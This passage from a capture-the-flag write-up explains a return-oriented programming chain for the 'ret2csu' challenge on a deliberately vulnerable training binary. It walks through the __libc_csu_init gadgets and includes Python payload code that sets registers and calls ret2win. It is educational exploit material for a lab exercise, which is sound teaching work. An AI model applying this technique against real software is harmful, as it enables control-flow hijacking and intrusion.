 Let's pick `0x600398`.
If I don't care about the value of a register, I'll simply use `0xFF`.

Again, we have our first gadget:

```python
# gadget 1:
payload += p64(0x0040069a)         # rbx, rbp, r12, r13, r14, r15
payload += p64(0x00)               # rbx
payload += p64(0x01)               # rbp
payload += p64(0x600398)           # r12: _init function
payload += p64(0xFF)               # r13
payload += p64(0xcafebabecafebabe) # r14 -> rsi
payload += p64(0xd00df00dd00df00d) # r15 -> rdx
# return to gadget 2:
payload += p64(0x00400680)         # mov rdx, r15; mov rsi, r14, mov edi, r13d; call qword [r12 + rbx*8]
```

Gadget 1 sets up some registers, then returns to gadget 2.

%rbx must be zero and %r12 point to the pointer to `_init`'s address, so that
the call using `%r12+%rbx*8` will end up as the value from %r12.

The `call` instruction pushes the address of the instruction after it onto the
stack, hence `_init` returns to `add $0x1,%rbx`.

Subsequently, the values in %rbx and %rbp are compared.
To take our prefered control flow, we need both values to be the same.
For this reason we pop `0x01` into %rbp (see gadget 1 above).

By this point we already have the right values for %rsi and %rdx, but we're
still missing %rdi.

Gadget 2 falls back into the pop-slide of gadget 1.

We pop past the pop-slide, return to the `pop rdi; ret` gadget, and make our
final return to `ret2win@plt`.

```python
# gadget 2:
# pop the values prepared in gadget 1
# call _init, return from init and continue on next instruction
payload += p64(0xFF) # add rsp,0x8 (removes this value from the stack)
payload += p64(0xFF) # rbx
payload += p64(0xFF) # rbp
payload += p64(0xFF) # r12
payload += p64(0xFF) # r13
payload += p64(0xFF) # r14
payload += p64(0xFF) # r15
payload += p64(rop.rdi.address) # pop rdi; ret
payload += p64(0xdeadbeefdeadbeef) # rdi
payload += p64(elf.plt['ret2win'])
```
